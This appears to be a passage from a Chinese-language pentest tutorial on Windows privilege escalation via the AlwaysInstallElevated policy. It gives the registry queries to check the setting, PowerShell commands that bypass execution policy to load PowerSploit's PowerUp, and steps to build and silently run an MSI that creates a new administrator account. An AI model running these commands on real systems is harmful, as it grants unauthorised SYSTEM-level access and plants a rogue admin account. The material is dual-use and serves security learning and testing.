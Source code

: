 然后使用 reg 查看这两项的键值，0x1 表示处于开启状态。

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210727163421.png)

## 复现

### PowerUp

PowerUp 下载地址：[https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)

我们可以使用 PowerUp.ps1 脚本里的 Get-RegistryAlwaysInstallElevated 模块来检查相关注册表是否被设置。

在 PowerShell 中导入并执行脚本

```
Import-Module .\PowerUp.ps1
Get-RegistryAlwaysInstallElevated
```

如果 PowerShell 由于处在受限模式以至于无法导入脚本，可以使用 -exec bypass 进行绕过。

```
powershell.exe -exec bypass -command "&{Import-Module .\PowerUp.ps1;Get-RegistryAlwaysInstallElevated}"
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210727173239.png)

返回为 True，表示相关注册表被设置了，也就意味着 MSI 文件是以 SYSTEM 权限运行的。

运行 PowerUp 的 Write-UserAddMSI 模块

```
powershell.exe -exec bypass -command "&{Import-Module .\PowerUp.ps1;Write-UserAddMSI}"
```

运行完后，会在当前目录下生成一个 UserAdd.msi 程序，此时以普通用户权限执行该 MSI 程序就会创建一个管理员账户。

直接双击或者命令行启动该 MSI 程序。

```
msiexec /q /i UserAdd.msi
```

msiexec 参数介绍：

```
/quiet：安装过程中禁止向用户发送消息
/qn：不使用GUI
/q：隐藏安装界面
/i：安装程序
```
